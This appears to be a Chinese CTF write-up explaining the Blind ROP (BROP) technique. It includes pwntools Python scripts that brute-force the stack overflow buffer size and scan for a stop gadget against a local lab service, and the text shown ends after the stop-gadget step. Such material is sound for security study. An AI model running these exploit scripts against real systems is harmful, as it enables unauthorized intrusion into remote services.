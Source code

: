 
## BROP 原理及题目解析
BROP 即 Blind ROP，需要我们在无法获得二进制文件的情况下，通过 ROP 进行远程攻击，劫持该应用程序的控制流，可用于开启了 ASLR、NX 和栈 canary 的 64-bit Linux。这一概念是是在 2014 年提出的，论文和幻灯片在参考资料中。

实现这一攻击有两个必要条件：
1. 目标程序存在一个栈溢出漏洞，并且我们知道怎样去触发它
2. 目标进程在崩溃后会立即重启，并且重启后进程被加载的地址不变，这样即使目标机器开启了 ASLR 也没有影响。

下面我们结合题目来讲一讲。


## 漏洞利用
#### 栈溢出
首先是要找到栈溢出的漏洞，老办法从 1 个字符开始，暴力枚举，直到它崩溃。
```python
def get_buffer_size():
    for i in range(100):
        payload  = "A"
        payload += "A"*i
        buf_size = len(payload) - 1
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.send(payload)
            p.recv()
            p.close()
            log.info("bad: %d" % buf_size)
        except EOFError as e:
            p.close()
            log.info("buffer size: %d" % buf_size)
            return buf_size
```
```
[*] buffer size: 72
```
要注意的是，崩溃意味着我们覆盖到了返回地址，所以缓冲区应该是发送的字符数减一，即 buf(64)+ebp(8)=72。该题并没有开启 canary，所以跳过爆破的过程。

#### stop gadget
在寻找通用 gadget 之前，我们需要一个 stop gadget。一般情况下，当我们把返回地址覆盖后，程序有很大的几率会挂掉，因为所覆盖的地址可能并不是合法的，所以我们需要一个能够使程序正常返回的地址，称作 stop gadget，这一步至关重要。stop gadget 可能不止一个，这里我们之间返回找到的第一个好了：
```python
def get_stop_addr(buf_size):
    addr = 0x400000
    while True:
        sleep(0.1)
        addr += 1
        payload  = "A"*buf_size
        payload += p64(addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            p.recvline()
            p.close()
            log.info("stop address: 0x%x" % addr)
            return addr
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1
```